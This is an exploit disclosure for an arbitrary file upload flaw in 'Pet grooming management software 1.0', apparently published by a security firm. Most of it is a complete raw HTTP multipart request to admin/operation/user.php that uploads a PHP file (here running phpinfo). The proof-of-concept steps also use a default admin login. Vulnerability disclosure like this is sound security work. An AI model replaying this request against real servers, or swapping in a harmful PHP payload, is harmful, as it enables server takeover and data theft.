 

# Pet grooming management software  - 'user.php' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'user.php'  file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```POST /login.php HTTP/1.1
POST /admin/operation/user.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_save"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="role_id"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--


```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Request the admin\operation\user.php interface to modify the website_image to the PHP malicious file we are about to upload.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayloaduser.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadlocationuser.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpageuser.png)

5、Pet-grooming-management-software.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-user.png)
